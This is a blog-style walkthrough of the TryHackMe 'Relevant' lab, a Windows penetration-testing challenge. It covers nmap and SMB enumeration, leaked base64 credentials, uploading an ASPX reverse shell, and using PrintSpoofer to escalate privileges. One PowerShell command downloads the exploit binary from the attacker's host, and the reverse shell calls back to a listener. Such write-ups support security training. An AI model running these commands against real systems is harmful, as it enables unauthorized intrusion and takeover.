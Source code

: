 ```yaml
---
layout: single
title: Relevant - TryHackMe (OSCP STYLE)
excerpt: "You have been assigned to a client that wants a penetration test conducted on an e
nvironment due to be released to production in seven days.

With this introduction, TryHackMe proposes us the following challenge, basically they ask us to perform a black box pentest simulating that we are going to test the security of an application that will go into production in 7 days"
date: 2023-05-14
classes: wide
header:
  teaser: /assets/images/relevant/portada.png
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - SMB Enumeration
  - SeImpersonatePrivilege
  - Cracking
---
```


## Enumeration

As I usually do in all my write-ups, the first thing we are going to do is check if we have connectivity with the machine

```
┌──(kali㉿kali)-[~]
└─$ ping -c4 10.10.81.172      
PING 10.10.81.172 (10.10.81.172) 56(84) bytes of data.
64 bytes from 10.10.81.172: icmp_seq=1 ttl=127 time=43.2 ms
64 bytes from 10.10.81.172: icmp_seq=2 ttl=127 time=43.8 ms
64 bytes from 10.10.81.172: icmp_seq=3 ttl=127 time=44.0 ms
64 bytes from 10.10.81.172: icmp_seq=4 ttl=127 time=44.7 ms

--- 10.10.81.172 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 43.235/43.930/44.716/0.530 ms
```

The ttl is 127 so we can supose that we are facing a windows machine

I run my usual scan, which reports 8 open ports

```
sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.81.172 -oG allPorts
```

![1]

Among those ports, some stand out more than others, the first one that caught my attention is port 80, indicating that a web service is running, and ports 139 and 445 related to the SMB protocol, maybe we can enumerate some interesting resources.

To get a bit more context, I run an nmap scan to determine the versions of those services running

```
┌──(kali㉿kali)-[~/Documents/THM/Relevant/nmap]
└─$ nmap -sVC -p80,139,445,3389 10.10.81.172

```

![2]

We navigate to the web page where we don't find much information, it's the default page of the Windows IIS.

We tried to fuzz it to find any hidden directories, but we didn't find nothing

If we enumerate the resources in the SMB, we can see that there is more to explore

```
┌──(kali㉿kali)-[~/Documents/THM/Relevant/nmap]
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.81.172 
```

![3]


Despite the supposed difficulty of the machine, it occurred to me to launch the nmap scan that checks if the victim is vulnerable to EternalBlue.

```
┌──(kali㉿kali)-[~/Documents/THM/Relevant/exploits]
└─$ nmap -sC -p445 --open --max-hostgroup 3 --script smb-vuln-ms17-010.nse 10.10.81.172

```

![4]

After trying for hours, I realized that it was impossible to enter through this method, so I decided to list the SMB content again and realized that the `nt4wrksv` folder was accessible

I connected to the shared resource without a password using the -N option and listed it. I discovered that the file passwords.txt existed

![5]

![6]

We can use a simple decoder, since the passwords are in base64. I have used CyberChef and found the following:

```
Bill - Juw4nnaM4n420696969!$$$
Bob - !P@$$W0rD!123
```

Now we have two potential users with their respective passwords.

## Initial Access

If we remember from the beginning of the write-up, we tried to find some directory to connect to, but the wfuzz tool did not return anything. I also tried through port 80 and the accessible SMB directory but didn't find anything.

As I was running out of options, I went back to review all the open ports on the machine.

Besides the typical ports, we have to remember that we have ports 3389, 49663, 49667, and 49669.

After trying them one by one, I found a way to proceed through port 49663.

![7]
It seems that we have access to the content of the shared resource from here. The first question that comes to my mind is: can we upload files and view them from this path?

We will temporarily exit the SMB console where we will create a file named "test.txt", then log back into the resource and verify if we have access to the file.

![8]

![9]
We can upload files that can be executed in the browser, what I'm thinking is to upload a reverse shell in aspx format that gives us access to the system

From our local machine
```
wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
```

We should modify the LHOS and LPORT parameters 


![10]

Now, we just need to set up a listener on our machine and navigate to the shell, thus obtaining the reverse shell on our computer.

![11]

## Privilege escalation


Here is where I found out that this machine was my downfall. As always, the first thing I enumerated were the permissions of my user, where I saw that the SetImpersonatePrivilege was enabled. After trying several times to use JuicyPotato as we have done on other machines, I realized that the machine always threw an error.

I found my salvation in the printspoofer tool which is compatible with the Windows Server 2016 version that the machine is running.

I downloaded the .exe binary from here

[GitHub](https://github.com/dievus/printspoofer/blob/master/PrintSpoofer.exe)

I uploaded it to the machine

```
powershell -command "iex(New-Object Net.WebClient).downloadFile('http://10.14.49.189:8080/PrintSpoofer.exe', 'c:\Users\Public\PrintSpoofer.exe')"
```

And finally get my Administrator shell

![12]

However, thinking that JuicyPotato didn't work for me because of the Windows version reminded me of the first vulnerability I had been trying (eternalblue), could it be that I was experiencing the same problem?

  
The nmap script seemed to indicate that the system was vulnerable, in other writes ups I found that we can exploit eternalblue o this machine with eternalromance exploit, anyway we did by this method that is manually too.


[1]:/assets/images/relevant/1.png
[2]:/assets/images/relevant/2.png
[3]:/assets/images/relevant/3.png
[4]:/assets/images/relevant/4.png
[5]:/assets/images/relevant/5.png
[6]:/assets/images/relevant/6.png
[7]:/assets/images/relevant/7.png
[8]:/assets/images/relevant/8.png
[9]:/assets/images/relevant/9.png
[10]:/assets/images/relevant/10.png
[11]:/assets/images/relevant/11.png
[12]:/assets/images/relevant/12.png

